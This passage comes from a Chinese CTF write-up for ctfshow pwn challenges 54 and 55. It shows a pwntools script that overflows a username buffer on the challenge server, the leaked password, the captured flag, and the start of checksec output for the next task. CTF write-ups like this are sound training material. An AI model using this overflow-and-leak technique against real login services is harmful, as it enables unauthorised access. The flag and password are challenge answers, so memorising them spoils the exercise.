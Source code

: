 那么exp就很明显了

```python
from pwn import *
p=remote("pwn.challenge.ctf.show",28141)
payload = b'a'*256
p.sendline(payload)
p.interactive()
```

交互结果：

```python
D:\python\pythonProject\.venv\Scripts\python.exe D:\python\pythonProject\pwn54.py 
[x] Opening connection to pwn.challenge.ctf.show on port 28141
[x] Opening connection to pwn.challenge.ctf.show on port 28141: Trying 124.223.158.81
[+] Opening connection to pwn.challenge.ctf.show on port 28141: Done
[*] Switching to interactive mode
==========CTFshow-LOGIN==========
Input your Username:
Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,CTFshow_PWN_r00t_p@ssw0rd_1s_h3r3

You has been banned!
[*] Got EOF while reading in interactive
```

这里的CTFshow_PWN_r00t_p@ssw0rd_1s_h3r3就是最终的用户密码

于是再一次进行交互

```c
C:\Users\26597>nc pwn.challenge.ctf.show 28141
==========CTFshow-LOGIN==========
Input your Username:
a
Welcome a,
Input your Password.
CTFshow_PWN_r00t_p@ssw0rd_1s_h3r3
Welcome! Here's what you want:
ctfshow{cf69bbb6-bc1f-48d4-9a0f-d9595a477f27}
```

## pwn55

checksec

32位

```c
[*] 'C:\\Users\\26597\\Desktop\\pwn附件\\pwn55'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```
